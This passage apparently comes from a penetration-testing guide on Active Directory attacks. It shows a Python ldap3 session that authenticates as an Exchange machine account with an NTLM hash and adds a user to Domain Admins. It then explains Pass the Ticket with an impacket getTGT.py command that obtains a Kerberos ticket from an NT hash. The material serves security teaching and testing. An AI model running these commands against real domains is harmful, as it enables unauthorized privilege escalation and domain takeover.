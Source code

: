 1
2
3
4
5
6
7
8
9
10
11
12
13
python3
>>> import ldap3
>>> user = 'DOMAIN\\EXCHANGE$'
>>> password = 'aad3b435b51404eeaad3b435b51404ee:6216d3268ba7634e92313c8b60293248'
>>> server = ldap3.Server('DOMAIN.LOCAL')
from ldap3 import Server, Connection, SIMPLE, SYNC, ALL, SASL, NTLM
connection = ldap3.Connection(server, user=user, password=password, authentication=NTLM)
>>> connection.bind()
>>> from ldap3.extend.microsoft.addMembersToGroups import ad_add_members_to_groups as addUsersInGroups
>>> user_dn = 'CN=IT User,OU=Standard Accounts,DC=domain,DC=local'
>>> group_dn = 'CN=Domain Admins,CN=Users,DC=domain,DC=local'
>>> addUsersInGroups(connection, user_dn, group_dn)
True
Resources:

https://pentestlab.blog/2019/09/12/microsoft-exchange-acl/

Pass the Ticket
What: Pass the ticket (PtT) is a method of authenticating to a system using Kerberos tickets without having access to an account’s password.

Why: It may not be possible to authenticate with NTLM, and only Kerberos authentication is allowed.  I won’t even attempt to explain how Kerberos works (I don’t quite get it honestly) but it can be very useful to understand how to use it in attacks.

How: The normal way to create a Kerberos ticket on Linux is by using kinit with the username, domain, and password.  If you don’t have the password, this is a problem.  Fortunately, impacket has a tool that allows you to use an NT Hash to acquire a valid Ticket Granting Ticket (TGT) from a domain controller.  Unfortunately however, Linux distros don’t typically have Kerberos tools installed on them and you will need to set them up.

Install the kerberos package
Configure the AD realm
Get DNS working properly
Sync time
To create a Kerberos TGT using an NT hash, run a command like below:

1
2
3
4
5
python3 getTGT.py -hashes aad3b435b51404eeaad3b435b51404ee:B65039D1C0359FA797F88FF06296118F domain.local/user
 